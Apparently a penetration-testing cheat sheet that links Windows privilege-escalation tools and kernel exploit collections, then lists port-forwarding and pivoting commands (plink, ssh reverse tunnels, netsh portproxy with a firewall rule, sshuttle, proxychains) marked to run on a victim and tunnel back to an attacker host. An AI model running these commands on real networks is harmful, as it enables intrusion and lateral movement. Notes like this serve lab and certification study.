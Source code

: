 

### Windows privesc/enum tools

- [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py)
- [windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)
- [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

### Windows precompiled exploits

- [WindowsExploits](https://github.com/abatchy17/WindowsExploits)
- [WindowsExploits](https://github.com/nomi-sec/PoC-in-GitHub)
- [WindowsExploits](https://github.com/SecWiki/windows-kernel-exploits)
- [WindowsExploits](https://github.com/Ascotbe/Kernelhub)


### Port Forwarding

## Windows

Run in victim:
`cmd.exe /c echo y | plink.exe -ssh -l kali -pw P@ssw0rd1234 -R 10.10.16.155:1445:127.0.0.1:445 10.10.16.155` #Opens port 1445 on kali to 445 on victim

`plink -l LOCALUSER -pw LOCALPASSWORD LOCALIP -R 5985:127.0.0.1:5985 -P 221`

`plink.exe -l kali -pw P@$$word -R 8080:127.0.0.1:445 10.10.16.155`

`ssh -l kali -pw P@$$word -R 445:127.0.0.1:445 10.10.16.155` #port forward

#NETSH PORT FWD
***IP Helper Svc and IPv6 Support must be enabled (default on Windows)***
`netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110` #Opens 4455 on Win client to fwd 445 to dest client
`netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow` #ALlow inbound connections on 4455
#On kali make sure '/etc/samba/smb.conf' is set to 'min protocol = SMB2' before connecting

## Linux

#Socks Proxy

`sudo sshuttle -r sean@10.11.1.251 10.1.1.0/24 -v` ## Requires PW of user; Socks Proxy to entire subnetwork from kali

`ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i id_rsa kali@192.168.119.137`  #Run on victim 

`proxychains nmap --top-ports=20 -sT -Pn 10.1.1.68`  #Make sure "sT" & "Pn" is configured when ran from kali & proxy port is in /etc/proxychains.conf file

#Remote Port Forward:

`ssh-keygen` # From victim machine; create keys to allow ssh connection
